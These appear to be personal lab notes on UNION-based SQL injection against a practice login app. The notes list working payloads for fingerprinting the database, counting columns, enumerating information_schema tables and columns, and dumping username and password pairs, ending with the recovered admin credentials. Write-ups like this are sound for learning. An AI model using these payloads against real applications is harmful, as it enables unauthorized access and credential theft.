




# Goal: Login as admin

# Preliminary Work
- Get the SQL Version
    - ' UNION SELECT @@version-- (:x:)
    - ' UNION SELECT version()-- (:x:)
    - [Oracle] ' UNION SELECT BANNER,NULL FROM v$version-- (:x:)
    - UNABLE TO GET VERSION SO I AM GOING IN BLIND 
- Determine number of columns needed for UNION
    - ' ORDER BY (number)--
        - stop when you get an error
    - ' ORDER BY 3-- (:white_check_mark:)
        - Yielded error so we know there are 2 columns
        - ALL tables have 2 columns
        - 
- Determine which columns can handle text (to display juicy info)
    - ' UNION SELECT 'a',NULL,NULL,...--
        - Did not dual thus non-Oracle 
    - ' UNION SELECT 'a',NULL-- (:x:)
    - ' UNION SELECT NULL,'a'-- (:white_check_mark:)
        - Only second column supports text (maybe uname and pword in same column?)

# Getting Column Values
- Get list of table names
    - ' UNION SELECT NULL,table_name FROM information_schema.tables--
        - Order matters since only the 2nd column can hold text
- CRTL-F 'user' to find potential tables
    - users (:white_check_mark)
    - 
- Get columns for the tables 
    - ' UNION SELECT COLUMN_NAME, DATA_TYPE FROM information_schema.columns WHERE table_name = 'users'--
        - username | password
    - 
- Get the column data using string concatenation stuff
    - ' ' UNION SELECT NULL,username || '*' || password FROM users--
        - Need to select two columns AND 1st column cannot hold text
        - * is a separator since characters would blend together otherwise
    - 
- Admin Info
    - uname: administrator
    - pword: ln847l6714ivrv9rbv6v

